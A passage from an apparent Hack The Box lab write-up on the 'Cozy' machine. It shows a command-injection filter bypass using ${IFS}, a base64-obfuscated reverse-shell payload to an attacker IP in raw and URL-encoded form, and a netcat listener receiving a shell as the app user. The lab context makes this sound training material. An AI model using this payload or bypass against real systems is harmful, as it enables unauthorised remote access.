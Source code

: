 As we can see from above, the command injection failed since we are not allowed to use spaces. To bypass this you can do a super simple trick which is to use __${IFS}__ in place of a space (*IFS = Internal Field Separator*).

Once you have replaced the blank spaces, highlight your payload and right click Convert Selection > Encode All Characters.

Payload pre URL encoding:

```
;`echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yMC85OTk5IDA+JjEK'${IFS}|base64${IFS}-d${IFS}|${IFS}bash`
```

Payload post URL encoding:

```
%3b%60%65%63%68%6f%24%7b%49%46%53%7d%27%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%69%34%79%4d%43%38%35%4f%54%6b%35%49%44%41%2b%4a%6a%45%4b%27%24%7b%49%46%53%7d%7c%62%61%73%65%36%34%24%7b%49%46%53%7d%2d%64%24%7b%49%46%53%7d%7c%24%7b%49%46%53%7d%62%61%73%68%60
```

Once you have everything above done go ahead and start a netcat listener and send the payload to the target. It should hang and return a 504 error if the RCE attempt is successful.

![rev success](/assets/images/machines/htb/cozy/rev.png)

I sent my payload and it worked! Now we have access as __app__ to the machine.

```bash
(h0ax㉿kracken)-[~/htb/boxes/easy/cozy]
└─$ nc -lvnp 9999    
listening on [any] 9999 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.230] 43648
bash: cannot set terminal process group (1064): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```
